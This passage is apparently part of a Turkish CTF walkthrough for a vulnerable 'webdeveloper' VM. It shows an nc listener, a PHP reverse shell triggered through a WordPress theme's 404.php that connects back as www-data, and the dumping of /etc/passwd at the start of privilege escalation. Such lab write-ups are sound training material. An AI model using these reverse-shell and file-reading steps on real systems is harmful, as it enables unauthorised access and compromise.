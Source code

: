 Şimdi `nc` ile bir dinleme başlatalım.
```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
```
Daha sonra tarayıcı üzerinden `http://192.168.171.140/wp-content/themes/twentysixteen/404.php` adresine gidelim ve *reverse shell php* kodumuzu tetikleyelim.

```sh
root@kali:~# nc -lvp 1822
listening on [any] 1822 ...
192.168.171.140: inverse host lookup failed: Unknown host
connect to [192.168.171.136] from (UNKNOWN) [192.168.171.140] 54428
Linux webdeveloper 4.15.0-47-generic #50-Ubuntu SMP Wed Mar 13 10:44:52 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 13:47:16 up 51 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
Evet içerdeyiz!

## 4	Yetki Yükseltme
```sh
$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
sshd:x:110:65534::/run/sshd:/usr/sbin/nologin
webdeveloper:x:1000:1000:WebDeveloper:/home/webdeveloper:/bin/bash
mysql:x:111:114:MySQL Server,,,:/nonexistent:/bin/false
```
Görüldüğü üzere webdeveloper isimli bir kullanıcı bulunmaktadır. Biraz araştırma yaptıktan sonra veritabanını kontrol ettim. Çünkü wordpress ile mysql olmazsa olmazlardır ve belki oradan başka bir kullanıcı bulabilirim diye düşündüm. Ne yazık ki wordpress'de denemiş olduğum şifre ssh için geçerli olmadı.